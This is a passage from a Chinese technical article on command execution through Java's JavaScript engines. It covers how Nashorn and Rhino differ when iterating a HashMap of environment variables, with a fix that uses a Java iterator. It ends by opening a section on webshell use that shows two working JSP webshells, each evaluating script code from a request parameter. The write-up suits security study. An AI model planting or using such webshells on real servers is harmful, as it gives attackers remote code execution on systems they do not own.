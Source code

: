 ```
      for (var key in cmdenv) {//关键
        print("key: "+key+"\n");
        e[i] = key + "=" + cmdenv[key];
        i++;
      }
```

其中cmdenv是个HashMap，这段代码在Java 8中Nashorn引擎可以正常解析，var key in cmdenv的时候把cmdenv的键给输出了

![image-20230802161240631](./assets/image-20230802161240631.png)

但是在Java 6下运行时，Rhino把他当成了一个js对象，把其属性输出了

![image-20230802161257427](./assets/image-20230802161257427.png)

所以涉及到这种混合写法就会有异议，不同的引擎有不同的解释。

解决办法使用Java迭代器即可，不掺杂js的写法。

```
var i = 0;
    var iter = cmdenv.keySet().iterator();
    while (iter.hasNext()) {
      var key = iter.next();
      var val = cmdenv.get(key);
      //print("\nkey:" + key);
      //print("\nval:" + val);
      e[i] = key + "=" + val;
      i++;
    }
```



## WebShell下的利用

### 原始Shell

shell.jsp

```
<%

     javax.script.ScriptEngine engine = new javax.script.ScriptEngineManager().getEngineByName("js");
     engine.put("request", request);
     engine.put("response", response);
     engine.eval(request.getParameter("mr6"));

%>
```

甚至不用绑定request/response对象也可以

```
<%
    out.println(new javax.script.ScriptEngineManager().getEngineByName("js").eval(request.getParameter("ant")));
%>
```
